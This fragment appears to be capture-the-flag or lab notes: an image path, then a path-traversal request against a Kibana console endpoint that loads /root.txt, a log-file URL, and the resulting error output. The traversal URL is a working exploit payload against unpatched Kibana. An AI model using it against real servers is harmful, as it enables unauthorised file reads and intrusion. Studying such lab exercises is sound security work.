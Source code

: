 http://10.10.58.194:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../root.txt
http://10.10.171.139:8000/kibana-log.txt

message":"ReferenceError: someELKfun is not defined\n    at Object.<anonymous> (/root.txt:1:6)\n
